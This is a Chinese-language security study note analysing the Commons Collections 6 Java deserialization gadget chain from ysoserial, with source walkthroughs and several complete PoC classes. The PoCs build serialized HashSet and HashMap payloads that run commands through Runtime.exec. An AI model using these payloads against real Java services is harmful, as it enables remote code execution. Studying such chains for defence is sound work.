

## 简介
CC6 也是利用的是CC1 `LazyMap#get`, 触发`ChainedTransformer`链式调用，当然和CC5一样，得去寻找对应在哪儿会调用`LazyMap#get`,这里还是使用`TiedMapEntry`类，因为该类的构造函数map值可控，可以构造为`lazymap`，在[Commons Collections 5 分析](https://www.yuque.com/da-labs/secnotes/lq7r24)中，可以知道只要调用`TiedMapEntry#getvalue` 就能执行`TiedMapEntry#get` 在`TiedMapEntry#get`方法中，map值即为可控的lazymap
目前在jdk1.7，jdk8u81测试是没有问题
## 分析链路
```
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

    by @matthias_kaiser
*/
```
### 环境

- jdk1.7
- Commons Collection 3.1

看一下`TiedMapEntry.java` 源码，在`hashCode()` 方法中调用了`getValue()`函数，也就是需要找到`TiedMapEntry`的实例来调用这个`hashCode()`函数
```java
    /**
     * Constructs a new entry with the given Map and key.
     *
     * @param map  the map
     * @param key  the key
     */
    public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }


    /**
     * Gets the value of this entry direct from the map.
     * 
     * @return the value
     */
    public Object getValue() {
        return map.get(key);
    }


    /**
     * Gets a hashCode compatible with the equals method.
     * <p>
     * Implemented per API documentation of {@link java.util.Map.Entry#hashCode()}
     * 
     * @return a suitable hash code
     */
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

那么去看看ysoserial里提供的CC6链路（这里截取一部分），从readObject()之后，主要需要看`HashMap#put`-> `HashMap#hash`是如何调用到`TiedMapEntry#hashcode`，这时就需要关注HashMap类
```
java.util.HashSet.readObject()
java.util.HashMap.put()
java.util.HashMap.hash()
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
```
我们从后往前分析先看`HashMap#hash`
这里传递的参数k是一个Obejct，只要k对象不是String类型，那么就会执行hashCode()方法，那么这里就需要想办法让指定参数k为`TiedMapEntry`的实例
```java
// HashMap.java
final int hash(Object k) {
    int h = hashSeed;
    if (0 != h && k instanceof String) {
        return sun.misc.Hashing.stringHash32((String) k);
    }

    h ^= k.hashCode();

    // This function ensures that hashCodes that differ only by
    // constant multiples at each bit position have a bounded
    // number of collisions (approximately 8 at default load factor).
    h ^= (h >>> 20) ^ (h >>> 12);
    return h ^ (h >>> 7) ^ (h >>> 4);
}
```
继续看`HashMap#put`, 在下面代码块的20行调用了`hash()`，此处`put(K key, V value)`接收的参数key要传入key保证为`TiedMapEntry`的实例，且table不能为`EMPTY_TABLE`
```java
// HashMap.java
    /**
     * Associates the specified value with the specified key in this map.
     * If the map previously contained a mapping for the key, the old
     * value is replaced.
     *
     * @param key key with which the specified value is to be associated
     * @param value value to be associated with the specified key
     * @return the previous value associated with <tt>key</tt>, or
     *         <tt>null</tt> if there was no mapping for <tt>key</tt>.
     *         (A <tt>null</tt> return can also indicate that the map
     *         previously associated <tt>null</tt> with <tt>key</tt>.)
     */
public V put(K key, V value) {
    if (table == EMPTY_TABLE) {
        inflateTable(threshold);
    }
    if (key == null)
        return putForNullKey(value);
    int hash = hash(key);
    int i = indexFor(hash, table.length);
    for (Entry<K,V> e = table[i]; e != null; e = e.next) {
        Object k;
        if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
            V oldValue = e.value;
            e.value = value;
            e.recordAccess(this);
            return oldValue;
        }
    }

    modCount++;
    addEntry(hash, key, value, i);
    return null;
}
```
再往上回溯，可以看到在`HashSet#readObject`，在下面的代码块中，第24行，`map.put(e,PRESENT)`在put过程中，map为`HashMap`，e为对应的`TiedMapEntry`的实例，就能保证整个链路完整执行
```java
// HashSet.java
    /**
     * Reconstitute the <tt>HashSet</tt> instance from a stream (that is,
     * deserialize it).
     */
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in any hidden serialization magic
    s.defaultReadObject();

    // Read in HashMap capacity and load factor and create backing HashMap
    int capacity = s.readInt();
    float loadFactor = s.readFloat();
    map = (((HashSet)this) instanceof LinkedHashSet ?
           new LinkedHashMap<E,Object>(capacity, loadFactor) :
           new HashMap<E,Object>(capacity, loadFactor));

    // Read in size
    int size = s.readInt();

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        E e = (E) s.readObject();
        map.put(e, PRESENT);
    }
}
```
### ysoserial分析
```java
// jdk1.7 && Commons Collections 3.1
// ...LazyMap逻辑
// 此处生成的实例为HashMap
HashSet map = new HashSet(1);
// 此处调用的HashSet的add方法，然后add方法中map为HashMap再调用put方法，此时Entry<K,V>[] table 为空，且key不为对应的TiedMapEntry实例，不满足条件
map.add("foo");
//那么需要反射将HashMap$Entry[K,V][] table 赋值，且在调用put的时候key为对应的TiedMapEntry实例
// 首先需要从HashSet实例的map值赋到HashMap实例map上，这里反射第一次将HashSet的实例map赋值给HashMap的实例Map
Field f = HashSet.class.getDeclaredField("map");
f.setAccessible(true);
HashMap innerMap = (HashMap) f.get(map);
// 此时 innerMap已经为HashMap实例，这会儿就需要反射HashMap的实例中的table赋值，让其不为null
Field f1 = HashMap.class.getDeclaredField("table");
f1.setAccessible(true);
// 取值操作，HashMap实例中table的值赋值给一个对象数组
Object[] array = (Object[]) f1.get(innerMap);
// 此时这个数据的长度应该只有1，并且对应的值就应该为foo=java.lang.Object@6b7536e7
Object node = array[0];
// 此时最后一步就需要反射取得这个HashMap$Entry的key，并将其赋值为TiedMapEntry的实例
Field keyFiled = node.getClass().getDeclaredField("key");
keyField.setAccessible(true);
keyField.set(node, "TiedMapEntry的实例");
// 最后再将map序列化成文件
writeObject(map);
```
## POC
### ysoserial（反序列化的HashSet）
```java
package com.myproject;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestCC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChian = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChian);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "123");
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);
        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] objects = (Object[]) f2.get(innimpl);
        Object node = objects[0];
        if(node == null){
            node = objects[1];
        }
        Field keyField = null;
        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception e) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);
        try {
            FileOutputStream fileOutputStream = new FileOutputStream("cc6.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(map);

            FileInputStream fileInputStream = new FileInputStream("cc6.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}

```


### 更改poc(反序列化HashMap)

```
java.io.ObjectInputStream.readObject()
    java.util.HashMap.readObject()
    java.util.HashMap.hash()
          org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
          org.apache.commons.collections.keyvalue.TiedMapEntry.get()
                 org.apache.commons.collections.map.LazyMap.get()
                         org.apache.commons.collections.functors.ChainedTransformer.transform()
                         org.apache.commons.collections.functors.InvokerTransformer.transform()
                                java.lang.reflect.Method.invoke()
                                      java.lang.Runtime.exec()

```
根据ysoserial改写，其实思路都一样
```java
package com.myproject;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class TestCC6_Poc_1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChian = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChian);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        // 直接创建一个HashMap
        HashMap innimpl = new HashMap();
        // HashMap 里一定要有初始值，不然table为空无法获取对应的key
        innimpl.put(null, "123");
        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }
        f2.setAccessible(true);
        Object[] objects = (Object[]) f2.get(innimpl);
        Object node = objects[0];
        Field keyField = null;
        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception e) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);
        try {
            FileOutputStream fileOutputStream = new FileOutputStream("cc6_1.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(innimpl);
//
            FileInputStream fileInputStream = new FileInputStream("cc6_1.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();


        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}

```


### 更改POC_1(反序列化HashSet 1次反射)
其实看HashSet这个类的时候，我们可以看到调用add方法的时候，其实传入entry之后，对应的Object就是恶意对象实例，那么就会调用`lazymap#get`方法，从而在客户端就执行1次命令
具体可以看如下代码，当map.add(entry)之后，就会弹出notepad
```java
Transformer[] fakertransformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"notepad.exe"})
    };
Transformer transformerChain = new ChainedTransformer(fakertransformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
HashSet map = new HashSet(1);
map.add(entry);
```


调试一下如上的代码，在add处，传入的是e为entry


在调用hash函数的时候，传入的也是entry


最后调用key(entry).hashcode()这时就会调用`TiedMapEntry#hashcode`，最后就会调用`LazyMap#get`方法


那么在客户端执行成功之后，是不行的，因为在`LazyMap#get`处，会判断map 中是否存在对应的key，如果存在，就不会调用factory.transform

```java
// lazymap#get
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
此时就需要保证在反序列化的时候lazymap中map不能有任何key
```java
lazyMap.remove("foo");
```
此时还未执行remove操作，可以看到lazymap存在值为foo


执行remove之后，可以看到，lazymap清空了



在ysoserial这个项目中，比如CC1中，都是在最后通过替换ChainedTransformer中的iTransformers为恶意的transformers来完成步骤

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};
Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain,transformers);
```
最后就是序列化与反序列化的步骤
```java
try{
    FileOutputStream fileOutputStream = new FileOutputStream("cc6_2.ser");
    ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
    objectOutputStream.writeObject(map);

    FileInputStream fileInputStream = new FileInputStream("cc6_2.ser");
    ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
    objectInputStream.readObject();
}catch (Exception e){
    e.printStackTrace();
}
```
完整poc
```java
package com.myproject;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestCC6_Poc_2 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakertransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(fakertransformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        HashSet map = new HashSet(1);
        map.add(entry);
        lazyMap.remove("foo");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);	

        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cc6_2.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(map);

            FileInputStream fileInputStream = new FileInputStream("cc6_2.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }

    }
}

```
在最后生成了序列化的文件，再将前面的代码注释掉，只留下反序列化的代码，最后只会执行transformers


